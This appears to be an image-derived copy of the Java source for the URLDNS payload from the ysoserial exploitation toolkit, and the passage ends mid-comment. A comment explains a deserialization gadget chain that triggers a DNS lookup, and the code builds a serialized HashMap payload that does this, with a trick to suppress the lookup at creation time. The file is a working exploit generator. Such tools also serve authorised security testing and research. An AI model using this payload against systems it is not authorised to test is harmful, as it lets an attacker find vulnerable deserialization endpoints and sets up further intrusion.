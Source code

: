 ```java
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
```